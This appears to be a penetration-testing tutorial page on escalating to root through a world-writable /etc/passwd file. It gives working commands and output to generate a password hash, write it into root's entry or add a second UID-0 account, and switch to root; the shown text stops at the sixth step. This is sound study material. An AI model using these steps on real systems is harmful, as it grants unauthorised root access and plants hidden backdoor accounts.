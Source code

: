 User password hashes were formerly stored in `/etc/passwd`. If the second field of a user row in contains a password hash, it takes precedence over the hash for backward compatibility.&#x20;

If we can only write to the file, we may also create a new user and give them the root user ID (0). Because Linux allows several entries for the same user ID as long as the usernames are distinct.

The root account in `/etc/passwd` is usually configured like this:

```
root:x:0:0:root:/root:/bin/bash
```

The “x” in the second field instructs Unix/Linux to search for the password hash in the /etc/shadow file. In some versions of Unix/Linux, it is possible to simply delete the “x”, which is interpreted as the user having no password:

```
root::0:0:root:/root:/bin/bash
```

#### /etc/passwd Privilege Escalation

1.  Enumerate the permissions of the /etc/passwd file:

    ```
    $ ls -l /etc/passwd
    -rw-r--rw- 1 root root 951 May 15 2021 /etc/passwd
    ```

    > Note that it is world writable.
2.  Generate a password hash for the password “password” with `openssl`:

    ```
    $ openssl passwd "password"
    L9yLGxncbOROc
    ```
3.  Modify the `/etc/passwd` file and paste the hash in the second field of the root user row:

    ```
    root:L9yLGxncbOROc:0:0:root:/root:/bin/bash
    ```
4.  Authenticate as the root user:

    ```
    $ su
    Password:
    # id
    uid=0(root) gid=0(root) groups=0(root)
    ```
5.  Alternatively, append a new row to the file `/etc/passwd` to create an alternate root user:

    ```
    rootuser:L9yLGxncbOROc:0:0:root:/root:/bin/bash
    ```
6.  Switch to the 'rootuser' user:

